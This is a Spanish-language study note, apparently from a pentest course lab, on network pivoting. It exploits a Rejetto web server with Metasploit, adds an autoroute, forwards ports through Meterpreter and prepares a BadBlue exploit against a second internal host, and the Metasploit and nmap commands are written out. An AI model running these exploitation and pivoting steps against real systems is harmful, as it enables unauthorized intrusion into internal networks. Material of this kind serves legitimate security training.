 
 Para ver el funcionamiento de pivoting se plantea un ejemplo:

Host víctima
1. 10.4.19.162
2. 10.4.16.92

![[Pasted image 20250306085619.png]]

Solo tenemos acceso a la primera IP. Vamos a realizar un scaneo a este host:

![[Pasted image 20250306085751.png]]

Si analizamos el servicio del puerto 80 veremos que es uno que ya hemos visto como es vulnerable.

![[Pasted image 20250306090209.png]]

Es la versión rejetto, vamos a buscar el módulo que le corresponde de metasploit

![[Pasted image 20250306090650.png]]

Cuando le demos a exploit conseguiremos una sesión de meterpreter, desde está sesión podemos hacer una enumeración del host y ver diferente información como los permisos que tenemos. Pero lo importante es comprobar la conexión a la otra ip.

Con el comando ``route`` podemos ver la tabla de conexiones:

![[Pasted image 20250306090924.png]]

Y si realizamos una prueba de ping podemos ver como hay conexion.

![[Pasted image 20250306091037.png]]

Vamos a cerrar la shell y volver al meterpreter con el comando ``exit``

 Este paso a realizar ahora es fundamental para conseguir la conexión al segundo host desde metasploit.

```bash
#Fijaos bien como pongo la subnet y con el ipconfig vemos la mascara.
run autoroute -s 10.4.19.0/20

#Dejamos la sesión en segundo plano
background

#Vamos a escanear los puertos del segundo host
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.4.16.92
set PORTS 1-100
exploit
```

![[Pasted image 20250306093752.png]]

Tenemos el puerto 80 abierto, pero para poder interactuar con el tendremos que vincular uno de nuestros puertos a un puerto del host 1.

```bash
sessions 1
#Vinculamos el puerto 1234 de nuestro host con el puerto 80 haciendo consulta a la ip del host 2
portfwd add -l 1234 -p 80 -r 10.4.16.92
portfwd list

#Si abrimos una nueva tab en le terminal podemos escanear el servicio
nmap -sV -sS -p 1234 localhost
```

![[Pasted image 20250306094141.png]]

```bash
#Como hemos visto es un BadBlue vulnerable. Vamos a volver a la consola de metasploit y a explotar el servicio.

use windows/http/basblue_passthru
#El puerto lo podemos dejar en 80 ya que metasploit esta usando autoruoute
set payload windows/meterpreter/bind_tcp
set RHOSTS 10.4.16.92
```

![[Pasted image 20250306094427.png]]

